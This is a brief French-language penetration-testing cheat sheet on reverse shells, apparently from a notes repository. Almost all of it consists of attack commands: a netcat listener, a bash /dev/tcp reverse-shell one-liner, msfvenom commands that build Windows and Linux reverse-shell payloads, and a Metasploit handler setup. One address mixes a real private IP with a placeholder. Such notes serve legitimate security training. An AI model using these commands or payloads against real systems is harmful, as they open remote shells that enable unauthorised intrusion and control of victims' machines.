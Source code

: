 ```yaml
---
description: nc -lvp <PORT>
---
```


# Reverse-shell

### Bash

```
bash -i >& /dev/tcp/192.168.119.164<IP>/<PORT> 0>&1
```

### MSFVenom

```
# Fonctionne avec netcat
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell_reverse_tcp.exe (c'est du 32 bits)

# Fonctionne avec msfconsole
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
```

Pour obtenir une session `Powershell` dans un _reverse-shell_ `msfvenom`, il faut taper la commande suivante :&#x20;

```
powershell.exe

# Importer un module
Import-Module .\module.ps1
```
